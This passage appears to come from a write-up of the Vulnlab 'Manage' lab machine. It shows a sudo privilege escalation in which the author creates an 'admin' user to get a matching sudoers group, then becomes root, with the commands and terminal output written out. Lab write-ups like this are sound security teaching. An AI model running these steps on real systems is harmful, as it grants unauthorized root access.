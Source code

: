 ![](/images/vulnlab/manage-vl/e.png)

It seems that users within the `admin` group also have all sudo privileges, much like the root user. 

However if you'll notice, there is no `admin` group within `/etc/group`.

```
......
landscape:x:117:
fwupd-refresh:x:118:
karl:x:1000:
tomcat:x:1001:
useradmin:x:1002:
daz:x:1003:
```

This means that if we create a user named `admin`, it should be granted SUDO rights on the machine based on the `sudoers` file. Since there isn't a user/group already created, it will interpret the user's name as the group for it to add to. This is backed by the fact that our users are given a group of their same name if we run `cat /etc/group`, as listed above.

So if we create a user called admin, it should trick the Linux OS into creating an `admin` group which will give all users (one of which being our newly created user) SUDO rights on the filesystem.

```
useradmin@manage:~/backups$ sudo /usr/sbin/adduser admin
Adding user `admin' ...
Adding new group `admin' (1004) ...
Adding new user `admin' (1004) with group `admin' ...
Creating home directory `/home/admin' ...
Copying files from `/etc/skel' ...
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for admin
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] Y
```

I gave the `admin` user the password `password`, and if we attempt to use `sudo su`:

```
useradmin@manage:~/backups$ su admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@manage:/home/useradmin/backups$ sudo su
[sudo] password for admin: 
root@manage:/home/useradmin/backups# whoami
root
```
